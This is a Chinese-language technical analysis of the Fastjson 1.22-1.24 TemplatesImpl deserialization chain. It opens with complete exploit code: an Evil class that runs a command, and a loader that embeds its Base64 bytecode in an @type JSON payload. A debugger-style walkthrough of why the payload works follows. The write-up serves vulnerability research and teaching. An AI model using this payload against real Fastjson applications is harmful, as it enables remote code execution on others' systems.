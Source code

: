 # Fastjson1.22-1.24反序列化分析之TemplateImpl

## 限制

这个利用链要求还是很高的，需要设置`Feature.SupportNonPublicField`才能成功触发

## 利用过程

首先写一个`Evil.java`，需要继承`AbstractTranslet`后面会简单说到

```java
public class Evil extends AbstractTranslet {
    public Evil() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Evil t = new Evil();
    }
}
```

再写一个Exploit.java，别忘了修改路劲

```java
package fastj;

import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.*;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.codec.binary.Base64;
import org.apache.wicket.util.io.IOUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class Exploit {
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }

    public static void main(String args[]){
        try {
            ParserConfig config = new ParserConfig();
            final String evilClassPath = System.getProperty("user.dir") + "\\target\\classes\\fastj\\Evil.class";
            String evilCode = readClass(evilClassPath);
            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
            String payload = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'','_tfactory':{ },\"_outputProperties\":{ }," +
                "\"_version\":\"\"}\n";

            JSON.parseObject(payload, Object.class, config, Feature.SupportNonPublicField);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

## 流程分析

首先在`JSON.parseObject`打上断点，后面跟进这个`DefaultJSONParser`![](img/1.png)

后面`JSONScanner`是初始化操作没啥好说的，有兴趣自己跟入

![](img/2.png)

当前为`{`并设置了token为12，记住他

![](img/3.png)

接下来看`parser.parseObject`，继续跟入

![](img/4.png)

再往下跟入`DefaultJSONParser`的`parse`方法![](img/5.png)

由于token为12![](img/6.png)

接下来扫描到`"`![](img/7.png)

获取key为`@type`![](img/8.png)

这里`JSON.DEFAULT_TYPE_KEY`就是`@type`![](img/9.png)

通过判断后调用scanSymbol()获取到了@type对应的指定类`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，并调用TypeUtils.loadClass()函数加载该类![](img/10.png)

看看`TypeUtils.loadClass`这里涉及了之后的绕过黑名单方法

![](img/11.png)往下看，通过`ClassLoader.loadClass()`加载到目标类后，然后将该类名和类缓存到Map中，最后返回该加载的类![](img/12.png)

返回后，程序继续回到`DefaultJSONParser.parseObject()`中往下执行，在最后调用`JavaBeanDeserializer.deserialze()`对目标类进行反序列化![](img/13.png)

## 属性下面有_下划线是怎么处理的

比如`_bytecodes`，跟入`parseField`![](img/14.png)

这个`smartMatch`

![](img/15.png)

里面对下划线进行了删除

```java
for(i = 0; i < key.length(); ++i) {
    char ch = key.charAt(i);
    if (ch == '_') {
        snakeOrkebab = true;
        key2 = key.replaceAll("_", "");
        break;
    }
```

## 为什么对_bytecodes进行Base64编码

FastJson提取byte[]数组字段值时会进行Base64解码，所以我们构造payload时需要对 `_bytecodes` 进行Base64处理，如下图

![](img/16.png)![](img/17.png)

## 为什么需要设置_tfactory为{}

在`getTransletInstance()`函数中调用了`defineTransletClasses()`函数，`defineTransletClasses()`函数是用于生成Java类的，在其中会新建一个转换类加载器，其中会调用到`_tfactory.getExternalExtensionsMap()`方法，若`_tfactory`为null则会导致这段代码报错、从而无法生成恶意类，进而无法成功攻击利用![](img/18.png)

## 关于Tempaltesimpl里面的一些知识

看我另一篇文章
